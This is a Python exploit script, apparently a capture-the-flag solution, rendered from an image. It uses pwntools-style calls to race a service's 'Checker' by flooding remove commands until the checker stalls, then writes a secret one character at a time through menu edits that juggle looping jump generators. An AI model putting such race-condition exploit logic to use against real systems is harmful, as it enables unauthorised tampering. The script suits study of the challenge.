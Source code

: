 ```python
This function performs the actual exploit
    It sends a request to the `Checker` and immediately starts triggering removes 
'''
def probe(ms: int, remove_count: int):

    success = b"loading"
    fail = b"finished"
    checker_fail = b"Only"

    wait = 0 if ms == 0 else (ms / 1000)
    assert(remove_count < pages-2)
    # to_del = collisions[:pages][-remove_count-remove_count:-remove_count]
    to_del = collisions[:pages][-remove_count:-2]
    to_del.reverse()

    # Start the checker on our last page
    io.sendline(b"5") 
    io.sendline(bytes(f"{last_page}", 'utf-8'))
    time.sleep(wait)

    # Sent a large amount of removes
    for col in to_del:
        io.sendline(b"3") 
        io.sendline(bytes(f"{int(col)}", 'utf-8'))


    res = io.recvuntil((success, fail, checker_fail))
    if fail in res or checker_fail in res:
        log.failure(f"Checker NOT stuck.. Failed: {fail in res}, Too fast: {checker_fail in res}")
        return False

    if success in res:
        log.success(f"Checker stuck! {ms}s")
        return True

'''
The actual function that writes the secret once the checker is stuck
'''
def write_secret(page: int, data: str):
    io.sendline(b"")
    mainMenu.edit_page(page)
    pageMenu.edit_element(0)
    for d in data:
        log.success(f"Append: {d}")

        stringsMenu.edit_generator(0)
        stringsMenu.char(d) # add the char to index 0
        time.sleep(1)

        stringsMenu.edit_generator(1) # block 1 to only go to itself (and unlock later)
        stringsMenu.jump(1)
        time.sleep(1)

        stringsMenu.edit_generator(2) # use 2 to jump to 0 so string is written
        stringsMenu.jump(0)

        # Now the new char should have been written and we are stuck in 1<->1 jumps
        time.sleep(2) # just to be sure the string was written

        stringsMenu.edit_generator(2) # restore 2<->3 infinite loop 
        stringsMenu.jump(3)
        time.sleep(1)
        stringsMenu.edit_generator(1) # open path to infinite loop 1->2
```